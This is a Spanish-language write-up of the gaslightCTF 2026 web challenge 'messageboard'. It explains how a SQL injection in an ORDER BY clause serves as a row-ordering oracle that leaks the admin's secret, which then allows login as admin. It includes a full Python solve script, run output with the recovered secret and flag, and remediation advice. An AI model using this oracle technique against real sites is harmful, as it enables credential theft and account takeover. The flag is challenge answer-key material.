




# messageboard — Write-up

- **CTF:** gaslightCTF 2026
- **Reto:** `messageboard`
- **Categoría:** Web
- **Puntos:** 497
- **Solves:** 18
- **Autor:** sportshead
- **Adjunto:** `messageboard.tar.zst` (código fuente del servidor)
- **Stack:** Bun + React + PostgreSQL
- **Relación con la materia:** A05 Injection (SQLi en `ORDER BY`) + Broken Access Control
- **Flag:** `gaslightCTF{ar3_y0u_my_cl0s3_fr13nd_n0w?_12a64ae2d59d}`

---

## Resumen

La app es un tablero de "stories" tipo close-friends. La flag es el mensaje
`close_friends` del usuario `admin`, y solo la ven quienes estén en su lista de
close friends (`alice`, `carol`, `dave`) o el propio admin.

Hay una **SQL injection en el `ORDER BY`** del endpoint `GET /api/stories`. No
alcanza para un `UNION` ni para leer la flag directo, pero sí para montar un
**oráculo booleano** que filtra el `secret` de `admin` byte a byte. Con ese
secret nos logueamos como admin y leemos su close_friends: la flag.



---

## Recon

Una vez logueados vemos el tablero: se pueden postear stories (públicas o de
close friends), definir la propia lista de close friends y **ordenar** el feed
por columna y sentido. La story de `bob` es la pista de diseño: *"anyone know how
to get on the admin close friends list?"* — nos empujan hacia el secret y la
lista de close friends de admin.



Todas las entradas que llegan a SQL están sanitizadas de la misma forma:

```ts
const whitelist =
  "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ";
export function filter(str) {
  for (const c of [...str]) if (!whitelist.includes(c)) return false;
  return true;
}
```

Repasando los sinks de `index.ts`:

| Parámetro | Sanitización | En SQL |
|---|---|---|
| `name`, `password`, `friend[]` | `filter()` (alfanumérico) | entre comillas `'...'` |
| `story` | `clean()` (alfanumérico + espacios) | entre comillas `'...'` |
| `visibility` | solo `"public"` / `"close_friends"` | interpolado como nombre de columna |
| `minutes` / `ttl` | entero validado (`1..1440`) | interpolado |
| **`column`, `order`** | **`filter()`** | **interpolado SIN comillas** |

El único punto sin comillas es el `ORDER BY`:

```ts
ORDER BY ${column} ${order}
```

`column` y `order` pasan `filter()`, así que son dos tokens **alfanuméricos**. No
hay comillas, espacios extra ni paréntesis disponibles, por lo que no se puede
armar `UNION`/subquery. Pero un token alfanumérico **es un nombre de columna
válido**: podemos ordenar por cualquier columna de `users`, incluidas columnas
que no aparecen en el `SELECT`, como `secret`.

---

## Por qué los caminos obvios fallan

**Ordenar por `close_friends` (la flag).** Para leer un valor byte a byte con el
oráculo de orden necesitamos reproducir su prefijo en un valor que controlemos.
La flag contiene `{`, `_`, `}`, caracteres que el whitelist y `clean()` **no**
permiten generar. Nos trabamos en el primer carácter especial.

**El dato clave — el `secret` de admin sí es reproducible:**

```ts
const secret = () => crypto.getRandomValues(new Uint8Array(8)).toHex();
```

Son **16 caracteres hex en minúscula** → 100% alfanuméricos → reproducibles. Y el
pivote lo controlamos perfecto: en el signup, **nuestro `secret` en la DB es
nuestro propio `password`**:

```ts
INSERT INTO users (name, secret) VALUES ('${name}', '${password}')
```

(La pista de diseño: `bob` tiene `secret: "iamthebuilder"` y postea *"anyone know
how to get on the admin close friends list?"* — te empujan hacia el secret y la
lista de close friends.)

---

## El oráculo

1. Nos registramos con `password` = pivote. Ese pivote queda como nuestro `secret`.
2. Posteamos una story **pública** para aparecer en `publicStories`, donde `admin`
   también está (tiene story pública viva, expiry 1h).
3. Pedimos `GET /api/stories?column=secret&order=ASC` y comparamos la posición de
   `admin` contra la nuestra en el resultado ordenado.

Eso da **1 bit**: si `admin` aparece después nuestro, entonces
`admin.secret > pivote`.

Comparación de strings en Postgres, con `pivote = known + ch` (siendo `known` el
prefijo ya confirmado):

- `admin.secret[i] > ch` → `admin.secret > pivote` → admin después → `True`
- `admin.secret[i] < ch` → admin antes → `False`
- `admin.secret[i] == ch` → como el secret es más largo que el pivote, el string
  más largo con prefijo igual es "mayor" → `True`

Es decir, el oráculo devuelve `True` sii `admin.secret[i] >= ch`. Con eso, una
**búsqueda binaria** por posición recupera cada carácter hex. Recuperamos 15
caracteres de forma fiable.

**Último carácter (posición 16):** ahí `pivote` y `secret` tendrían la misma
longitud, y en el caso de igualdad exacta el orden entre filas es un empate
inestable (no fiable). Así que el char 16 se confirma por fuerza bruta con
`POST /api/login` (16 intentos): definitivo y trivial.

---

## Leer la flag

Con el secret completo, `POST /api/login` como `admin`. Luego
`GET /api/stories` nos devuelve el close_friends de admin porque la query de
close-friends incluye el propio usuario:

```ts
WHERE close_friends IS NOT NULL
  AND close_friends_expiry > now()
  AND (close_friends_list @> ARRAY['${name}'] OR name = '${name}')
--                                                  ^^^^^^^^^^^^^^^^^
```

Con `name = 'admin'`, la fila del propio admin matchea `name = 'admin'` y su
`close_friends` (la flag) aparece como `story`.

---

## Exploit

El script completo está en [`solve.py`](./solve.py) (solo requiere `requests`).
Recupera el `secret` de admin con búsqueda binaria sobre el oráculo, confirma el
último carácter por login y lee el close_friends de admin.

```python
import requests

BASE = "https://<instancia>.play.gaslightctf.cooking:1337/"   # ajustar host/puerto
ALPH = "0123456789abcdef"
c = [0]

def admin_after_pivot(pivot: str) -> bool:
    """True si admin.secret > pivot (admin ordena después nuestro en ASC)."""
    c[0] += 1
    user = f"pwn{c[0]}"
    s = requests.Session()
    r = s.post(f"{BASE}/api/signup", json={"name": user, "password": pivot})
    r.raise_for_status()
    s.post(f"{BASE}/api/stories",
           json={"story": "hi", "visibility": "public", "minutes": 60})
    rows = s.get(f"{BASE}/api/stories",
                 params={"column": "secret", "order": "ASC"}).json()
    pub = [x["author"] for x in rows if x["visibility"] == "public"]
    if "admin" not in pub:
        raise SystemExit("admin no está en publicStories: la instancia expiró (>1h). Reiniciala.")
    return pub.index("admin") > pub.index(user)

# Recuperamos 15 chars con el oráculo (sin empates: el pivote es más corto que el secret).
known = ""
for _ in range(15):
    lo, hi, res = 0, len(ALPH) - 1, 0
    while lo <= hi:
        mid = (lo + hi) // 2
        if admin_after_pivot(known + ALPH[mid]):   # realchar >= ALPH[mid]
            res = mid; lo = mid + 1
        else:
            hi = mid - 1
    known += ALPH[res]
    print("secret:", known)

# El char 16 lo confirmamos por login (evita el empate exacto pivote==secret).
for ch in ALPH:
    cand = known + ch
    s = requests.Session()
    if s.post(f"{BASE}/api/login", json={"name": "admin", "password": cand}).ok:
        print("admin secret:", cand)
        rows = s.get(f"{BASE}/api/stories",
                     params={"column": "name", "order": "ASC"}).json()
        for row in rows:
            if row["author"] == "admin" and row["visibility"] == "close_friends":
                print("FLAG:", row["story"])
        break
```

Corrida:

```bash
python3 solve.py
```



```
secret: b
secret: b0
...
admin secret: b09335f47df2a4bc
FLAG: gaslightCTF{ar3_y0u_my_cl0s3_fr13nd_n0w?_12a64ae2d59d}
```



---

## Root cause y remediación

La causa es interpolar identificadores de SQL directamente en el query. Un
whitelist alfanumérico impide *romper* la sintaxis, pero **no** impide ordenar por
columnas sensibles: `secret` sigue siendo un identificador válido, y el orden de
las filas filtra información de esa columna.

Mitigaciones:

- **Allowlist de valores concretos**, no de caracteres: `column ∈ {"name","expiry"}`
  y `order ∈ {"ASC","DESC"}`. Cualquier otro valor se rechaza.
- Usar queries parametrizadas / *query builder* en vez de string interpolation en
  todo el archivo (todos los demás sinks solo se salvan por el whitelist).
- No exponer un canal de ordenamiento sobre una tabla que mezcla columnas
  públicas y secretas.

---

## TL;DR

SQLi en `ORDER BY` → oráculo booleano por posición de filas → exfiltración del
`secret` (hex) de admin byte a byte → login como admin → lectura de su
close_friends → flag.
